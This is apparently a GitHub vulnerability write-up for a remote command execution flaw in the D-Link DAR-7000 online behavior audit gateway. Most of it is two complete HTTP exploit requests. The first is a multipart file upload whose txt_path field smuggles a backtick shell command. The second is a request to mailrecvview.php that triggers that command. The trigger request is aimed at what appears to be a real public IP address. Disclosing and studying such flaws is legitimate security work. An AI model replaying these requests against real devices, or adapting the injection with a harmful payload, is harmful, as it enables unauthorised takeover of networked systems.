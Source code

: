 The D-LINK DAR-7000 series online behavior audit gateway has a RCE vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000  DAR V31R02B1413C

Vulnerability Path ：/log/mailrecvview.php

<img width="673" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/b2e0591b-ddc5-4c9b-9028-44b988a5352b">



First construct POC and upload command execution files
```
POST /Tool/uploadfile.php? HTTP/1.1
Host:
Cookie: PHPSESSID=25c62fc086a2f7777b8e0dd04d2a75d1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------886123294864872782496578758
Content-Length: 324
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------886123294864872782496578758
Content-Disposition: form-data; name="file_upload"; filename="1.txt"
Content-Type: application/octet-stream

1
-----------------------------886123294864872782496578758
Content-Disposition: form-data; name="txt_path"

/usr/hddocs/nsg/home/`sleep${IFS}10`.txt

```
<img width="680" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/e64a1c3c-42d4-457f-8307-4cc40e77cfee">



Log in to the system, access the uploaded file, and successfully execute the system command
```
GET /log/mailrecvview.php?file=/usr/hddocs/nsg/home/`sleep${IFS}10`.txt&type=%51%51%20%57%65%62%4d%61%69%6c HTTP/1.1
Host: 60.22.74.195:8443
Cookie: PHPSESSID=bdb1aa1392da0420192cff3c34e507d6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 219.142.42.9
Te: trailers
Connection: close

```
<img width="684" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/6f76fff3-1b15-4709-baf0-174f7553a261">

